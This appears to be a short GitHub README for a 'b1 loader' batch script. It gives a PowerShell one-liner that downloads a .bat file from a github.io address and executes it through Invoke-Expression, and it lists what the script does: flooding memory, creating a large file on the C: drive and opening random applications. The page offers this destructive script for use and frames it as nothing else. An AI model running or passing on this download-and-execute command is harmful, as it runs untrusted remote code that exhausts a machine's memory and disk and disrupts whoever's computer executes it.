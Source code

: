 batch loader
----------------------------------
# b1 loader 
- ```powershell -Command "Invoke-Expression (Invoke-WebRequest -Uri 'https://luzisdev.github.io/b-1.bat').Content"```
- flood memory
- creat big file at C:\
- open randoms application
----------------------------------
